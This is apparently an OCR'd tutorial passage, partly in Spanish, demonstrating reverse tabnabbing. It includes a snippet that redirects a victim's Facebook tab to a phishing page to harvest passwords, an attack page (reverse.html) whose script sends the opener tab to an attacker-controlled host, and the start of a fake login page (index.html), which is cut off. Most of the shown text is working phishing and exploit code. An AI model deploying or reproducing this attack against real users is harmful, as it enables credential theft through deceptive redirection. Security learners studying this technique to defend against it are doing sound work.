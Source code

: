 ```

    window.opener.location = 'https://fakewebsite/facebook.com/page.html';

    which redirects the Facebook tab to your phishing page, asking the user to re-enter their Facebook password.


```


ahora crearemos 2 archivos


 index.html  reverse.html


```
❯ cat reverse.html
───────┬──────────────────────────────────────────────────────────────────────────────────────────
       │ File: reverse.html
───────┼──────────────────────────────────────────────────────────────────────────────────────────
   1   │ cat reverse.html
   2   │ <!DOCTYPE html>
   3   │ <html>
   4   │   <head>
   5   │   </head>
   6   │   <body>
   7   │     <h1>Hallo</h1>
   8   │     <p>Check your previous tab. You think it's pointing where you left it, right? Check a
       │ gain!</p>
   9   │ 
  10   │     <hr>
  11   │     Read more about this and check the code on <a href="https://github.com/fepe55/target_
       │ blank_exploit">GitHub</a>
  12   │ 
  13   │     <script>
  14   │       console.log(document.referrer);
  15   │       window.opener.location.replace('http://192.168.1.72:1234/index.html');
  16   │     </script>
  17   │   </body>
  18   │ </html>
```


```
cat index.html
───────┬──────────────────────────────────────────────────────────────────────────────────────────
       │ File: index.html
───────┼──────────────────────────────────────────────────────────────────────────────────────────
   1   │ ┌──(noesholk㉿noes)-[~]
   2   │ └─$ cat index.html  
   3   │  
   4   │ <!DOCTYPE html>
   5   │ <html lang="en">
   6   │ <head>
   7   │     <meta charset="UTF-8">
   8   │     <title>Login</title>
   9   │     <link rel="stylesheet" href="https://stackpath.bootstrapcdn.com/bootstrap/4.5.2/css/b
       │ ootstrap.min.css">
  10   │     <style>
  11   │         body{ font: 14px sans-serif; }
  12   │         .wrapper{ width: 360px; padding: 20px; }
  13   │     </style>
  14   │ </head>
  15   │ <body>
  16   │     <div class="wrapper">
  17   │         <h2>Login</h2>
```